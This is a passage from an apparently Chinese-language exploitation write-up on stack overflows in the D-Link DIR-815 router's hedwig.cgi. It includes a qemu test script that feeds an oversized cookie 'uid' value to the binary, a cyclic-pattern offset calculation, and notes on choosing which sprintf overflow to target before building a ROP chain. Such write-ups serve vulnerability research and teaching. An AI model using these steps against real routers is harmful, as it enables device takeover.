 程序通过 getenv 的方式获取 HTTP 数据包中的数据，流程应该为：

    
    
    主Web程序监听端口->传送HTTP数据包->  
    HTTP中headers等数据通过环境变量的方式传给cgi处理程序->  
    cgi程序通过getenv获取数据并处理返回给主程序->向客户端返回响应数据  
    #POST具体数据可以通过类似输入流传入 ：echo "uid=aaa"| /htdocs/web/hedwig.cgi

测试脚本test.sh

    
    
    #!/bin/bash  
    #注意：里面=和变量之间一定不要有空格，坑，否则读入空数据。  
    test=$(python -c "print ('uid='+open('content','r').read(2000))") #方式一，以文件形式读入内容，提前填充好构造的数据到content文件  
    #test=$(python -c "print 'uid=' + 'A'*0x600" )#方式二，直接后面接数据内容  
    #test=$(python -c "print 'uid='+open('exploit','r').read()")  
    #test =$(python -c "print 'uid=' + 'A'*1043 + 'B'*4")#可选构造数据  
       
    LEN=$(echo -n "$test" | wc -c)      
    PORT="1234"  
    cp $(which qemu-mipsel-static) ./qemu  
    sudo chroot . ./qemu -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencoded" -E REQUEST_METHOD="POST" -E HTTP_COOKIE=$test -E REQUEST_URL="/hedwig.cgi" -E REMOTE_ADDR="127.0.0.1" -g $PORT /htdocs/web/hedwig.cgi 2>/dev/null      
    #-E参数：加入环境变量 ；2>/dev/null ：不输出提示错误  
    rm -f ./qemu

利用patternLocOffset.py生成content文件，包含特定格式的2000个字符串。类似于cyclic

    
    
    python patternLocOffset.py  -c  -l  2000 -f content

在0x0409A38处断下

![](/images/D-LINK DIR-815多次溢出漏洞/1752587184732.png)![](/images/D-LINK
DIR-815多次溢出漏洞/1752587185298.png)

`python patternLocOffset.py -s 0x38694237 -l 2000`计算偏移：

![](/images/D-LINK DIR-815多次溢出漏洞/1752587185374.png)

跟完`sess_get_uid()`函数可发现后面还有一个`sprintf()`，这里也会造成栈溢出，哪到底哪个才是真正的利用点呢

从整个函数可以看出，`fopen("/var/tmp/temp.xml",
"w")`的成功与否会导致程序走向这两个地方，即成功后是第二个`sprintf()`为溢出利用点，而失败时是第一个`sprintf()`为溢出利用点

如果 `fopen("/var/tmp/temp.xml", "w")` 打开成功则会执行到第二个
`sprintf`，因为没有实机没法判断实际固件中是否有这个目录

因此我们手动创建该目录及文件

    
    
    mkdir var/tmp  
    touch var/tmp/temp.xml

这里假设第二个`sprintf()`为漏洞点（其实是第一个还是第二个对于用户模式下的调试并没有多大关系，就是偏移不一样罢了，构造 rop
链方法都是一样的），所以偏移得重新计算
